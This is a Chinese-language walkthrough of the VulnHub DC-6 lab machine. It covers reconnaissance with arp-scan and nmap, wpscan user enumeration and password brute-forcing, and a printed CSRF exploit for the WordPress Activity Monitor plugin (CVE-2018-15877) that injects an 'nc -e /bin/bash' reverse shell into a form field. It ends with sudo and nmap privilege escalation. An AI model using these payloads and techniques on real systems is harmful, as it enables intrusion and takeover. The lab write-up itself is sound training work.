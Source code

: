 ## DC-6 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-6          | `192.168.1.106` |

### 扫描端口和版本信息

`nmap -A 192.168.1.106`

![1](../src/vulnhub/dc_6/1.png)

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **WordPress 5.1.1**。设置 *host* 后访问 Web

![3](../src/vulnhub/dc_6/3.png)

经过 OSINT 搜索，知道该版本的 WordPress 存在 **CSRF to RCE** 漏洞 ，不过利用条件是需要管理账户点击利用链接，这显然不太现实，因为该环境是虚拟机环境。不过出题人给了我们明确的提示：

```
OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt That should save you a few years. ;-)
```

既然作者提示制作密码字典，显然需要我们暴力破解，使用 `wpscan` 工具进行暴力破解。在此之前执行下列命令枚举出用户

`wpscan --url http://wordy --enumerate u`

![4](../src/vulnhub/dc_6/4.png)

得到 5 个用户：`admin`、`mark`、`graham`、`sarah` 和 `jens`。目前为止我们知道用户名和密码字典，接下来同样使用 `wpscan `工具来爆破密码

`wpscan --url http://wordy -U users.txt -P passwd.txt`

结果得到一个用户和密码： `mark:helpdesk01`，之后使用该账户登陆到 WordPress

![5](../src/vulnhub/dc_6/5.png)

经过探索，当前用户可以新建页面但却不能发布。不过倒是看到该 WordPress 安装的唯一的插件：*Activity Monitor*

![6](../src/vulnhub/dc_6/6.png)

### Getshell

结果意料之内，该插件存在漏洞，可以进行 CSRF 攻击。我们将该文本复制到当前目录后再重命名为 `getshell.html`，并且需要稍许修改

```html
<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy:80/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="localhost | nc 192.168.1.112 6677 -e /bin/bash" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

在 Kali 上开启简易 HTTP 服务器（`python3 -m http.server 8088`），同时监听 **6677** 端口，此外在 Win10 上访问该 HTML

![7](../src/vulnhub/dc_6/7.png) 

因为在 Win10 上登陆了 WordPress，只要我们在浏览器中点击该按钮，就会里面执行代码（提交的表单中的数据是发送给插件里的某一项功能）

![8](../src/vulnhub/dc_6/8.png)

Kali 接收到反弹 shell，并且成功 Getshell。之后在 `/home `目录下执行 ` ls -lhaR` 命令时（递归显示文件夹），结果在 `/home/jens` 下发现 `backups.sh` 脚本文件，在 `/home/mark/stuff` 路径下发现 `things-to-do.txt` 文本文件，并且该文件给出了一个用户名和密码：` graham:GSo7isUM1D4`

![9](../src/vulnhub/dc_6/9.png)

![10](../src/vulnhub/dc_6/10.png)

切换到该用户后查看 *sudo* 权限我们可以知道他可以无密码执行 `jens` 用户的 `backups.sh` 脚本文件

![11](../src/vulnhub/dc_6/11.png)

之后步骤显而易见，执行命令：`echo "/bin/bash" > backups.sh` 后使用 sudo 权限执行该脚本就可以切换到 `jens` 用户

![12](../src/vulnhub/dc_6/12.png)

### 提权

如法炮制，`nmap `工具的 `--script` 参数可以加载文件，填入系统命令到文件就可以执行

![13](../src/vulnhub/dc_6/13.png)

### 总结

1.  `wpscan` 工具使用 API KEY 进行常规扫描：

   `wpscan --url xxx -e --api-token xxx`

2. `wpscan` 工具枚举用户：

   `wpscan --url xxx --enumerate u`

